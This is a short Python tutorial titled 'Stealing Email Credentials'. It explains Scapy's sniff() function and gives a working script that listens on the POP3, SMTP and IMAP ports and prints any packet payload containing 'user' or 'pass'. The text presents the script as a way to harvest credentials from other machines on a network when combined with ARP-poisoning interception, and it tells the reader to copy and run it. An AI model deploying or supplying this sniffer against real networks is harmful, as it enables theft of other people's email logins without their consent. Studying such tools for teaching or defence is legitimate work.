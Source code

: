 # **Stealing Email Credentials**

After learning about Python sniffing, we will explore Scapy's sniffing and packet dissection interface. We will create a basic sniffer to obtain SMTP, POP3, and IMAP credentials. When combined with an ARP poisoning MITM attack, this sniffer can be used to steal credentials from other machines on the network. It can also be used to capture all traffic or any other protocol.

### `sniff(filter="", iface="any", prn=function, count=N)`

`sniff()` function in Scapy can capture and analyze network traffic with arguments such as `filter`, `iface`, `prn`, and `count`.

- `filter` specifies the type of traffic to capture.
- `iface` specifies the network interface to use.
- `prn` is the function for analyzing each packet.
- `count` specifies the maximum number of packets to capture.

For example, to capture all HTTP traffic on the `eth0` interface:

```python
sniff(filter="tcp port 80", iface="eth0", prn=process_packet)
```

## `mail_sniffer.py`

```python
from scapy.all import sniff

def packet_callback(packet):
    print(packet.show())

def main():
    sniff(prn=packet_callback, count=1)

if __name__ == '__main__':
    main()
```

The code above shows an example of using Scapy's `sniff()` function to capture and analyze network traffic. The `packet_callback()` function is defined to process each packet captured by the sniffer. In this example, the `count` parameter is set to 1, so the sniffer will stop after capturing a single packet.

When `main()` is called, it invokes `sniff()` and passes `packet_callback()` as the argument for `prn`. This means that `packet_callback()` will be called for every packet captured by the sniffer. In this example, `packet.show()` is called for each packet to display its contents.

## Filters

![a.png](a.png)

```python
from scapy.all import sniff, TCP, IP

# the packet callback
def packet_callback(packet):
    if packet[TCP].payload:
        mypacket = str(packet[TCP].payload)
        if 'user' in mypacket.lower() or 'pass' in mypacket.lower():
            print(f"[*] Destination: {packet[IP].dst}")
            print(f"[*] {str(packet[TCP].payload)}")

def main():
    # fire up the sniffer
    sniff(filter='tcp port 110 or tcp port 25 or tcp port 143',
          prn=packet_callback, store=0)

if __name__ == '__main__':
    main()
```

The code above uses Scapy to create a sniffer that captures SMTP, POP3, and IMAP credentials from network traffic. The `packet_callback()` function is defined to process each packet captured by the sniffer. In this example, the `filter` parameter is set to capture traffic on common **email ports** **110(POP3)**, **25(SMTP)**, and **143(IMAP)**. When a packet is captured, the `packet_callback()` function checks if it contains the words "user" or "pass". If it does, it prints the destination IP address and the payload of the packet.

To use this code, simply copy and paste it into a Python file and run it.